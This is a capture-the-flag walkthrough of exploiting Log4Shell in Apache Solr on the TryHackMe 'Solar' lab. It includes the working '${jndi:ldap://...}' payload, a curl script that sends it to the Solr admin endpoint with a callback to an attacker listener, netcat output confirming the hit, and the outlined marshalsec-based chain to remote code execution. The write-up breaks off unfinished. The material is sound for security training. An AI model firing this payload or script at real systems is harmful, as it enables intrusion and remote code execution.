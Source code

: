 # CTF - [THM Solar, exploiting log4j](https://tryhackme.com/room/solar)
Nmap scan:
```
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
8983/tcp open  unknown
```

Port 8983 is interesting, navigating to the web server on this port, I found a web app running Apache Solr version 8.11.0. Apparently, this software is known to 
have the vulnerable log4j package.
<br/><br/>
![Screenshot from 2021-12-22 13-53-37](https://user-images.githubusercontent.com/59718043/147141427-ae530fa8-811d-4d3a-a664-ab908b62025e.png)

The dashboard shows indicators that the log4j package is used for the logging activity on this application.
```
-Dsolr.log.dir=/var/solr/logs
```
This machine is supplied with example log files for investigation. In one of the log files, `solr.log`, there are multiple entries of the same requests pointing to
one specific URL endpoint or path. This path is set to `/admin/cores`. Another interesting field is the `params={}`, which we can supply with user input.
```
2021-12-13 03:44:58.415 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=80
2021-12-13 03:47:53.989 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:54.819 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.284 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.682 INFO  (qtp1083962448-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.075 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.459 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.844 INFO  (qtp1083962448-14) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.253 INFO  (qtp1083962448-17) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.548 INFO  (qtp1083962448-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.758 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:58.058 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=1
2021-12-13 03:47:58.346 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0

```
The URL endpoint needs to be prefaced with `solr/`. So the address where we can supply the `params={}` payload 
would look like this: `http://MACHINE_IP:8983/solr/admin/cores`.
<br/><br/>
The payload to abuse this log4j vulnerability looks like this: `${jndi:ldap://ATTACKERCONTROLLEDHOST}`.
This schema reaches out to an attacker controlled endpoint via the LDAP protocol and uses the Java Naming and Directory Interface (JNDI) functionality
to access external resources.
<br/><br/>
To test this theory, we're going to set up a netcat listener then make an HTTP request including the JNDI payload as part of the parameters.
```
nc -nvlp 4444
```
```bash
#!/bin/bash

read -p "LISTENER IP: " attacker
read -p "TARGET IP: " target
curl "http://${target}:8983/solr/admin/cores?foo=$\{jndi:ldap://${attacker}:4444\}"
```
Output:
```
$ bash curl.sh
LISTENER IP: 10.8.219.166
TARGET IP: 10.10.73.44
{
  "responseHeader":{
    "status":0,
    "QTime":3},
  "initFailures":{},
  "status":{}}
```
Netcat output:
```
$ nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.73.44 57114
0
 `
```
As expected, the output verifies that the target is in fact vulnerable. The netcat listener caught a connection. However, 
the payload we sent only made an LDAP request, so technically we haven't popped a shell yet.<br/>


The exploitation requires us to host an LDAP referral server, which will redirect the victim's request to an HTTP server hosting our secondary payload, ultimately allowing us to run arbitrary code on the target.<br/><br/>
The attack chain would be executed like this:<br/>
- 1. `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server 
- 2. The LDAP Referral Server then redirects the payload to our HTTP server
- 3. The victim retrieves and executes the code on our HTTP server, which then gives us unauthenticated remote access

We will utilize an open-source LDAP Referral Server utility: [marshalsec](https://github.com/mbechler/marshalsec)<br/>
According the README.md file, Java 8 is required.<br/><br/>
Link to download Java on Linux (we will need `jdk-8u181-linux-x64.tar.gz`): http://mirrors.rootpei.com/jdk/
```bash
#!/bin/bash

sudo mkdir /usr/lib/jvm 

cd /usr/lib/jvm

sudo tar xzvf ~/Downloads/jdk-8u181-linux-x64.tar.gz    # modify as needed

sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1

sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac
sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws
```
```
TO BE CONTINUED
```

